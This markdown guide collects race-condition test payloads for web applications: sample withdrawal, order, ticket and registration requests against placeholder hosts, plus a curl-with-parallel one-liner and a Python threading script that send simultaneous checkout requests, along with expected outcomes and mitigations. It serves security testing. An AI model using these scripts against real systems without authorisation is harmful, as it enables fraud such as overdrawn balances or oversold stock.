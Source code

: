 # Race Condition Payload Examples

This document provides example payloads and scenarios for testing race conditions in web applications.

## Basic Race Condition Payload

### Concurrent Balance Deduction (Financial System)

**Scenario**: Multiple simultaneous requests to deduct from the same account balance.

```json
POST /api/accounts/123/withdraw HTTP/1.1
Host: bank.example.com
Content-Type: application/json
Authorization: Bearer user_token_here

{
  "amount": 100,
  "currency": "USD",
  "transaction_id": "txn_987654321"
}
```

### Concurrent Inventory Reduction (E-commerce)

**Scenario**: Multiple orders trying to claim the last item in stock.

```json
POST /api/products/456/order HTTP/1.1
Host: shop.example.com
Content-Type: application/json

{
  "user_id": "user_789",
  "quantity": 1,
  "payment_token": "pay_123456789"
}
```

## Race Condition Testing Techniques

### 1. Parallel Request Payload

Use tools like `curl`, `Postman`, or scripts to send simultaneous requests:

```bash
# Using GNU parallel to send 10 concurrent requests
seq 10 | parallel -n0 "curl -X POST https://api.example.com/checkout \
  -H 'Content-Type: application/json' \
  -d '{\"user_id\":\"user123\",\"item_id\":\"limited_edition_1\"}'"
```

### 2. Ticket Reservation Race

**Scenario**: Multiple users trying to reserve the same event ticket.

```json
POST /api/events/789/reserve HTTP/1.1
Host: tickets.example.com

{
  "user_id": "user_456",
  "seat_number": "A12",
  "payment_method": "credit_card"
}
```

## Race Condition in User Registration

### Duplicate Account Creation

```json
POST /api/register HTTP/1.1
Host: auth.example.com
Content-Type: application/json

{
  "email": "newuser@example.com",
  "password": "P@ssw0rd123",
  "username": "newuser123"
}
```

## Mitigation Headers (For Testing)

Some systems implement race condition protection headers:

```http
If-Unmodified-Since: Wed, 21 Oct 2023 07:28:00 GMT
If-Match: "etag_value_here"
```

## Expected Race Condition Outcomes

1. **Negative Balance/Inventory**: When checks pass for multiple requests before any updates
2. **Duplicate Entries**: When unique constraints aren't properly enforced
3. **Partial Updates**: When some but not all operations complete
4. **Inconsistent State**: When related data becomes out of sync

## Testing Script Example (Python)

```python
import threading
import requests

def make_request():
    response = requests.post(
        "https://api.example.com/checkout",
        json={"user_id": "user123", "item_id": "limited_item"},
        headers={"Authorization": "Bearer token123"}
    )
    print(response.status_code, response.json())

threads = []
for i in range(20):
    t = threading.Thread(target=make_request)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

## Protection Mechanisms to Test Against

1. **Database Locks** (Pessimistic/Optimistic)
2. **Atomic Operations**
3. **Queue Systems**
4. **ETag/Version Checking**
5. **Rate Limiting**

## Important Notes

1. Only test race conditions on systems you own or have permission to test
2. These examples are for educational and legitimate testing purposes
3. Actual exploitation of race conditions without permission is illegal
4. Always document your findings responsibly if conducting security research